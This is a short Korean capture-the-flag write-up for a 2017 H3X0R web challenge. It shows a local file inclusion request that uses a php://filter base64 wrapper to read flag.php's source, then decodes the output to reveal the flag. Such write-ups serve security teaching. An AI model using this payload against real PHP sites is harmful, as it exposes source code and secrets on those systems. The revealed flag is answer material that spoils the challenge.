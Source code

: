 ======================================================
[2017_H3X0R] [WEB] aboa_sagiri
======================================================

문제 내용
======================================================

http://garbage.dothome.co.kr/chall.php


문제 풀이
======================================================

해당 사이트에 접속해보면 친절하게 LFI라고 말해주고 있다. LFI를 통해 flag.php를 읽어보자.

.. code-block:: html

    http://garbage.dothome.co.kr/chall.php?file=php://filter/convert.base64-encode/resource=flag.php
    PD9waHAKICAgIGVjaG8gIlVzZSBMRkkhIjsKICAgICRmbGFnID0gIkgzWDBSe2EwYmFfYzB0ZV9hZG0xdD99IjsK

base64 코드를 확인할 수 있고, 해당 코드를 디코드하면 플래그를 획득할 수 있다.

.. code-block:: console

    $ echo "PD9waHAKICAgIGVjaG8gIlVzZSBMRkkhIjsKICAgICRmbGFnID0gIkgzWDBSe2EwYmFfYzB0ZV9hZG0xdD99IjsK"|base64 -D
    <?php
        echo "Use LFI!";
        $flag = "H3X0R{a0ba_c0te_adm1t?}";

